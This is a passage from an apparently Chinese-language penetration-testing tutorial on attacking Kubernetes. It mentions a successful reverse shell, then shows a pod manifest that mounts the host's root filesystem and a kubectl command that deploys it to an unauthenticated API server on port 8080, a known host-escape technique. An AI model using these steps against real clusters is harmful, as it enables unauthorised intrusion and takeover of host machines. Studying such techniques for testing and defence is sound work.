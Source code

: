 Step 10：成功反弹shell

[![](assets/1699842580-9275c3f606fb0d2be62dce825de25682.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165358-08e2a4c6-7314-1.png)

B、Kubectl Client

Step 1：新建myapp2.yaml文件

```plain
apiVersion: v1
kind: Pod
metadata:
  name: myapp2
spec:
  containers:
  - image: nginx
    name: container0
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```

Step 2：创建容器

```plain
kubectl -s 192.168.17.144:8080 create -f myapp2.yaml
```

[![](assets/1699842580-228eb663730a15f42aa13590fb9780a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165434-1e742a26-7314-1.png)  
Step 3：查看容器状态
